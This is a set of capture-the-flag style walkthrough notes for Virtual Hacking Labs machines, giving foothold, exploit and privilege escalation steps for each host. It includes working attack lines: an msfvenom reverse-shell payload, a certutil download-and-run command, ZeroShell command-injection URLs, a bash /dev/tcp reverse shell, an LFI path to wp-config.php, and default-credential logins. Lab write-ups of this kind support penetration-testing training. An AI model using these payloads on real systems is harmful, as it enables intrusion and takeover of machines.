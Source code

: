 ## Virtual Hacking Labs

- [Beginner](#Beginner)
- [Advance](#advance)

### Beginner
#### 10.11.1.36 (Steven)
```bash
Foothold -> Found Wing FTP Server and Login with admin:admin  
Exploit -> RCE

msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.1 LPORT=4444 -f exe > shell-x86.exe

os.execute('cmd.exe /c certutil.exe -urlcache -split -f http://172.16.1.1:8080/shell.exe C:\Windows\Temp\shell.exe & C:\Windows\Temp\shell.exe')

Escalate -> Don't need
```
#### 10.11.1.48 (Android)
```bash
Foothold -> Found Port 5555 (adb)
Exploit -> Connect with ADB Tool

./adb connect 10.11.1.48:5555
./adb shell

Escalate -> Just su to root
```
#### 10.11.1.60 (Zero)
```bash
Foothold -> Found ZeroShell

Exploit -> RCE
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0Auname -a%0A'

Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux Linux zeroshell 4.14.29-ZS #4 SMP Mon Mar 26 23:04:36 CEST 2018 i686 GenuineIntel unknown GNU/Linux

Escalate -> sudo by tar
https://10.11.1.60/cgi-bin/kerbynet?Section=NoAuthREQ&Action=x509view&User=Admin&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=id%0A'

uid=0(root) gid=0(root) groups=0(root) uid=0(root) gid=0(root) groups=0(root) 
```
Reference  
 -> https://www.exploit-db.com/exploits/49096  
 -> https://www.tarlogic.com/advisories/zeroshell-rce-root.txt

#### 10.11.1.74 (Mantis)
```bash
Foothold -> Read robots.txt and Found http://10.11.1.74/mantisbt-2.3.0
Exploit1 -> Try to Use RCE (Unauthenticated) it's work but it's a rabbit hole.
Exploit2 -> Use Reset Administrator Password to Exploit
User -> Investigate The Page and Found SSH credential and Use it.
Root -> sudo -l and Found "(ALL : ALL) ALL" Then sudo su
```

#### 10.11.1.83 (John)
```bash
Foothold -> Found Target is Windows XP and Open 445
Exploit -> MS08-067 and MS17-010
```

#### 10.11.1.95 (James)
```bash
Foothold -> Found Apache James Server 2.3.2
Exploit -> Use Public Exploit from https://www.exploit-db.com/exploits/50347

sudo -l
(root) NOPASSWD: /sbin/reboot

Found Can Edit /etc/init.d/james

Escalate -> Edit /etc/init.d/james

---/etc/init.d/james---
#!/bin/bash
sudo JAVA_HOME=/usr/lib/jvm/default-java /home/james/shell.sh
-----------------------

Escalate -> Create shell.sh
---shell.sh---
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.1.2/80 0>&1
--------------

Escalate -> sudo /sbin/reboot
```

#### 10.11.1.109 (AS45)
```bash
Foothold -> Found Apache Struts 2
Exploit -> Public RCE 

https://www.exploit-db.com/exploits/41570
python 41570.py http://10.11.1.109:8080/struts2-rest-showcase/orders/6 whoami
```

#### 10.11.1.113 (Anthony)
```bash
Foothold -> Found Port 80 and It is gitstack
Exploit -> Public RCE
https://www.exploit-db.com/exploits/43777
```

#### 10.11.1.124 (Breeze)
```bash
Foothold -> Found Port 80 and It is Sync Breeze Enterprise v8.9.24
Exploit -> Public RCE
https://zerontek.blogspot.com/2020/09/hacking-wakthrough-sync-breeze.html?fbclid=IwAR30vTktd0Rt_aEAkAEwCtCiODRz4i0Le_ifftmDPQ0ZV0m44kznlvR2O2o
```

#### 10.11.1.177 (CMS01)
```bash
Foothold -> Found Joomla v 3.6.3

Use Joomraa.py
https://github.com/XiphosResearch/exploits/tree/master/Joomraa
Login and read administrator password

Exploit -> Login with Admin Credential then upload shell.php
Escalate -> read /var/www/html/configuration.php and found root password
```

### Advance

#### 10.11.1.2 (Lucky)
```bash
Foothold -> Found SMB was Open
Exploit -> Upload PHP shell via SMB
Escalate -> Use dirty cow
https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2
```

#### 10.11.1.2 (Techblog)
```bash
Foothold -> Found Website use Wordpress and found Wordpress Site Import 1.0.1 Then LFI to read wp-config.php
https://10.11.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../wp-config.php
Exploit -> Edit Page in wp-admin (PHP Shell)
Escalate -> Use dirty cow
https://www.exploit-db.com/exploits/40616
```